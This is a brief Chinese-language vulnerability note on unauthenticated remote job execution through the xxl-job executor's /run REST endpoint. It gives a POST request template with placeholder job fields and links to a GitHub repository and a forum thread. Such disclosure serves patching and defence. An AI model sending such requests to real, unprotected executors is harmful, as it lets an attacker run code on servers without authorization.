 # xxl-job 执行器 RESTful API 未授权访问 RCE


PoC：

以restful API 来看，看官方文档 xxl-job/XXL-JOB官方文档.md ，在没有access token的情况下 ，可以直接触发任务


```
POST {执行器内嵌服务跟地址}/run

    {
        "jobId":1,                                  // 任务ID
        "executorHandler":"demoJobHandler",         // 任务标识
        "executorParams":"demoJobHandler",          // 任务参数
        "executorBlockStrategy":"COVER_EARLY",      // 任务阻塞策略，可选值参考 com.xxl.job.core.enums.ExecutorBlockStrategyEnum
        "executorTimeout":0,                        // 任务超时时间，单位秒，大于零时生效
        "logId":1,                                  // 本次调度日志ID
        "logDateTime":1586629003729,                // 本次调度日志时间
        "glueType":"BEAN",                          // 任务模式，可选值参考 com.xxl.job.core.glue.GlueTypeEnum
        "glueSource":"xxx",                         // GLUE脚本代码
        "glueUpdatetime":1586629003727,             // GLUE脚本更新时间，用于判定脚本是否变更以及是否需要刷新
        "broadcastIndex":0,                         // 分片参数：当前分片
        "broadcastTotal":0                          // 分片参数：总分片
    }
```

jas502n：https://github.com/jas502n/xxl-job


https://forum.ywhack.com/thread-114622-1-5.html